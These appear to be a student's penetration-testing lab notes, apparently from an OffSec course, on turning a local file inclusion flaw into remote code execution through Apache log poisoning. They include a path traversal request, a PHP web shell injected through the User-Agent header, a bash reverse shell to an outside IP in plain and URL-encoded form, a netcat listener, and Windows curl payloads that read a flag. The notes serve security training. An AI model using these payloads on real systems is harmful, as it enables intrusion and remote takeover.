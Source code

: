  **we can use directory traversal vulnerabilities to obtain the contents of a file outside of the web server's web root. _File inclusion_ vulnerabilities allow us to "include" a file in the application's running code. The exploitation of directory traversal and LFI vulnerabilities mainly differs when handling executable files or content.**

---

goal is to obtain _Remote Code Execution_ (RCE) via an LFI vulnerability can do this by Log Poisoning, works by modifying data we send to a web application so that the logs contain executable code

```
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
```

This above shows us what user-agent accessed file last, so we can go ahead and modify our user-agent header to something executable so that it will be stored and then we can exploit by running it.

can now modify the User Agent to include the PHP code snippet, using burp send to page page=admin.php:

```
<?php echo system($_GET['cmd']); ?>
```

now to execute a command, send req here like so
```
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```

we can use an ampersand (&) as a delimiter. We'll also remove the User Agent line from the current Burp request to avoid poisoning the log again, which would lead to multiple executions of our command due to two PHP snippets included in the log.

![[Pasted image 20250316201548.png]]

Now if we try cmd= ls -la

The output in the _Response_ section shows that our input triggers an error. This happens due to the space between the command and the parameters, so lets use url encoding for the (%20) 
![[Pasted image 20250316201900.png]]

We have achieved command execution on the target system and can leverage this to get a reverse shell or add our SSH key to the **authorized_keys** file for a user

```
bash -c "bash -i >& /dev/tcp/192.168.45.230/4444 0>&1"
```
We'll once again encode the special characters with URL encoding.

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.230%2F4444%200%3E%261%22
```

before we run, need to start netcat listener on port 4444
```
nc -nvlp 4444
```


---

The PHP code snippet we used in this section for Linux also works on Windows

When we use Log Poisoning on Windows, we should understand that the log files are located in application-specific paths. For example, on a target running _XAMPP_,[10](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-10) the Apache logs can be found in **C:\xampp\apache\logs\**

Outside PHP, we can also leverage LFI and RFI vulnerabilities in other frameworks or server-side scripting languages including _Perl_,[11](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-11) _Active Server Pages Extended_,[12](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-12) _Active Server Pages_,[13](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-13) and _Java Server Pages_.[14](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-14) Exploiting these kinds of vulnerabilities is very similar across these languages.

If we can write JSP code to a file using Log Poisoning and include this file with the LFI vulnerability, the code will be executed. The only difference between this example and the previous PHP demonstration is that the code snippet used for the Log Poisoning would be in a different language.

---

For the windows machine it was a little bit different and not sure if i was supposed to do it this way but i was not able to get cmds going in the url so i noticed in the logs if i ran 
```
curl -A "<?php system('whoami'); ?>" "http://192.168.170.193/meteor/index.php?page=admin.php" 
```

i was getting **NT AUTHORITY\SYSTEM** -which is root

then i ran dir saw a sus file and then ran 
```
curl -A "<?php system('type hopefullynobodyfindsthisfilebecauseitssupersecret.txt'); ?>" "http://192.168.170.193/meteor/index.php?page=admin.php"
```
.... gave me the flag but there was no reverse shell :D